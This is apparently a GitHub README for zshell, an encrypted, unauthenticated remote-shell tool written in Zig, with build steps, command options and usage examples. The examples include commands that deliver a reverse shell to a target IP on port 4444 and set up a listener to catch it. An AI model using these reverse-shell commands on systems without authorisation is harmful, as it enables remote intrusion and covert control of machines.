 # zshell

>  A portable, end-to-end encrypted and fully interactive remote shell application.

This application can be used for remote system management via command line (shell). It is portable (tested on both Windows and Linux) and offers a fully interactive shell on both platforms.

The whole communication is encrypted using [ztunnel](https://github.com/LvMalware/ztunnel), which uses a combination of `X25519Kyber768` for key exchange and AES-256-GCM for encryption. This will protect the session from eavesdropping, but since there is no authentication you should use it with caution if exposing to the internet.

`zshell` can be used as a reverse shell with the `--reverse` flag and the resulting shell session is stable. It uses [PseudoConsole](https://learn.microsoft.com/en-us/windows/console/creating-a-pseudoconsole-session) on Windows and `forkpty` on Linux to establish a shell session, so there is no need to manually stabilize your shell anymore.


## Compilation

> You will need `Zig 0.14.0` ([download](https://ziglang.org/download/)).

Close the repository, cd into it and run zig build:

```
git clone https://github.com/LvMalware/zshell
cd zshell
zig build -Doptimize=ReleaseFast # add -Dtarget=x86_64-windows if you are cross-compiling for windows
```

This will compile the application using the `ReleaseFast` mode, but you can change it to any other optimization option you want.


## Usage

```
Usage: zshell [options]
Options:
--help       boolean    Show this help message and exit
--port       integer    Port to listen/connect (default: 1337)
--host       string     Host to listen/connect
--save       string     File to save private key
--shell      string     Shell/command to be served to the client
--server     boolean    Act as a server
--private    string     File containning private key to use
--reverse    boolean    Server will receive a shell / Client will send a shell
```

## Examples

Run a server that accepts connections on port 12345 and serves a shell using /bin/zsh:

```
zshell --server --port 12345 --shell /bin/zsh
```

Run the client to connect to the server above:

```
zshell --host 127.0.0.1 --port 12345
```

Run client to deliver a reverse shell to target ip 192.168.0.123 on port 4444:

```
zshell --host 192.168.0.123 --port 4444 --reverse
```

Run server to listen to port 4444 and wait for the reverse shell above:

```
zshell --port 4444 --server --reverse
```

## Meta

Lucas V. Araujo – root@lva.sh

Distributed under the GNU GPL-3.0+ license. See ``LICENSE`` for more information.

[https://github.com/LvMalware/zshell](https://github.com/LvMalware/zshell)

## Contributing

1. Fork it (<https://github.com/LvMalware/zshell/fork>)
2. Create your feature branch (`git checkout -b feature/fooBar`)
3. Commit your changes (`git commit -am 'Add some fooBar'`)
4. Push to the branch (`git push origin feature/fooBar`)
5. Create a new Pull Request

